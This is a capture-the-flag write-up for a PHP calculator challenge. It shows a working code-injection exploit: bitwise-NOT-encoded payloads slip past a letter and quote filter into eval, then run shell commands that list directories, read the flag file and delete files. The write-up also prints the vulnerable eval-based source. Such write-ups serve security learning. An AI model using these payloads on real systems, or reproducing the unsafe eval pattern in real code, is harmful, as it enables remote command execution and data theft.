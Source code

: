 ## SimpleCalculator (100 points)

#### Solved by Fluoxetine

```
Some restriction should prevent this simple calculator from being hacked. Right?

61.28.237.24 30101

authors: d0r4, Em0n
```

![](image0.png)
![](image1.png)
![](image2.png)
![](image3.png)
![](image4.png)
![](image5.png)
![](image6.png)
![](image7.png)

We are given a web form that allows us to input values and operations to a calculator and the results will be printed.

Some quick experiments reveal that we can not use neither letters nor quotes. The input must also be shorter than 20 characters.

It’s highly likely that the server is doing some sort of `eval` to perform the calculation. We can exploit it to run functions like `exec("ls")`, but we first need to figure out some way to pass strings.

The trick here is to use the bitwise NOT operator. When PHP encounters `~` and a string, it will invert that string. Therefore, we can invert our string, passing it to the calculator along with `~`, and PHP will invert back to the original string :)

Sample payload for `exec("ls -l >a")`: `(~%9A%87%9A%9C)(~%93%8C%DF%D2%93%DF%C1%9E)`

We need to put the string in bracket to make PHP treat it as string. We don't need any quotes because PHP treats unknown constants as strings (e.g. `echo aabbccdd` will print out `aabbccdd` if `aabbccdd` has not been defined as a constant).

Now it's just the matter of choosing which commands to run. The command has the maximum length of 10.

```php
<?php
echo "(~" . urlencode(~"exec") . ")(~" . urlencode(~"ls -l >a") . ")" . "\n";  // (~%9A%87%9A%9C)(~%93%8C%DF%D2%93%DF%C1%9E)
echo "(~" . urlencode(~"exec") . ")(~" . urlencode(~"ls -l />a") . ")" . "\n"; // (~%9A%87%9A%9C)(~%93%8C%DF%D2%93%DF%D0%C1%9E)
echo "(~" . urlencode(~"exec") . ")(~" . urlencode(~"cat /f*>a") . ")" . "\n"; // (~%9A%87%9A%9C)(~%9C%9E%8B%DF%D0%99%D5%C1%9E)
echo "(~" . urlencode(~"exec") . ")(~" . urlencode(~"rm a") . ")" . "\n";      // (~%9A%87%9A%9C)(~%8D%92%DF%9E)
?>
```

Run the payload like this: `http://61.28.237.24:30101/?equation=(~%9A%87%9A%9C)(~%93%8C%DF%D2%93%DF%C1%9E)`

Read `a`: `http://61.28.237.24:30101/a`

Output of `ls -l >a`:

```
total 4
-rw-r--r--. 1 www-data www-data   0 May 24 01:39 a
-rwxrw-r--. 1 www-data root     856 May 18 11:52 index.php
drwxr-xr-x. 1 www-data root      23 May 18 11:52 static
```

Output of `ls -l />a`:

```
total 4
drwxr-xr-x.   1 root root  28 May 12 12:48 bin
drwxr-xr-x.   2 root root   6 Mar 19 23:44 boot
drwxr-xr-x.   5 root root 360 May 23 13:13 dev
drwxr-xr-x.   1 root root  66 May 23 13:13 etc
-rwxrw-r--.   1 root root  25 May 18 11:52 fl4ggggH3reeeeeeeeeee
drwxr-xr-x.   2 root root   6 Mar 19 23:44 home
drwxr-xr-x.   1 root root  21 May 12 12:48 lib
drwxr-xr-x.   2 root root  34 May 11 00:00 lib64
drwxr-xr-x.   2 root root   6 May 11 00:00 media
drwxr-xr-x.   2 root root   6 May 11 00:00 mnt
drwxr-xr-x.   2 root root   6 May 11 00:00 opt
dr-xr-xr-x. 570 root root   0 May 23 13:13 proc
drwx------.   1 root root   6 May 12 13:41 root
drwxr-xr-x.   1 root root  36 May 23 13:13 run
drwxr-xr-x.   1 root root  20 May 12 12:48 sbin
drwxr-xr-x.   2 root root   6 May 11 00:00 srv
dr-xr-xr-x.  13 root root   0 May 11 11:41 sys
drwxrwxrwt.   1 root root   6 May 12 13:41 tmp
drwxr-xr-x.   1 root root  19 May 11 00:00 usr
drwxr-xr-x.   1 root root  17 May 12 12:43 var
```

Output of `cat /f*>a`:

```
HCMUS-CTF{d4ngErous_eVal}
```

Just for the sake of completeness, we can also dump `index.php`:

```php
<?php
echo "(~" . urlencode(~"exec") . ")(~" . urlencode(~"cat i*>a") . ")" . "\n"; // (~%9A%87%9A%9C)(~%9C%9E%8B%DF%96%D5%C1%9E)
echo "(~" . urlencode(~"exec") . ")(~" . urlencode(~"rm a") . ")" . "\n";     // (~%9A%87%9A%9C)(~%8D%92%DF%9E)
?>
```

```php
<?php

    $html = '   <form>
        <label for="equation">Equation: </label>
            <input name="equation" value="13*37">
        <input type="submit">
    </form>
';
    if (isset($_GET["equation"])) {
        $formula = $_GET["equation"];
        if (preg_match_all('/[a-z\'"`]+/i', $formula)) {
            echo "<video controls autoplay><source src='static/video.mp4' type='video/mp4'></video>";
            echo "<h1>Are you trying to hack me? Alphabetic character and quote is not allowed here</h1>";
        }
        else if (strlen($formula) >= 20) {
            echo "<h1>This is just a simple calculator, not WolframAlpha, try a shorter equation</h1>";
        }
        else
        {
            eval('$res = ' . $formula . ';');
            echo isset($res) ? $res : '?';
        }
    }
    else
        echo $html;
?>
```

**Flag:** `HCMUS-CTF{d4ngErous_eVal}`
